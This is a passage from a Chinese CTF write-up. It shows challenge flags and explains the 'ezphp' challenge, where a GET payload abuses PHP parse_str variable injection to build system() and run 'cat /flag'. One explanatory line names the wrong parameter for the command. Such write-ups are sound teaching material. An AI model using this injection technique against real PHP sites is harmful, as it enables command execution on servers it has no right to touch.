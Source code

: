 ``` 
SSHCTF{58e9ff21-3327-4d31-a4a3-d1662095cb20}
```

### ezphp

hint：查看robots.txt和利用implode函数

查看/robots.txt，有一个phphpp.php，访问phphpp.php

- GET：`?cover=a[0]=implode&c=sys&d=tem&b=cat /flag`

`parse_str($cover);` 会将cover的值作为php代码解析

根据hint要用implode，所以需要`$a[0] = implode`，推出`cover=a[0]=implode`

`$c` 和 `$d` 是implode的参数，两个拼起来是system即可，这里用`c=sys&d=tem`

`$b` 是system要执行的指令，`d=cat /flag`

![ezphp](.\imgs/ezphp.png)

``` 
SSHCTF{0021a89a-1f09-4747-85ea-f55702b7f257}
```

### 钱包危机
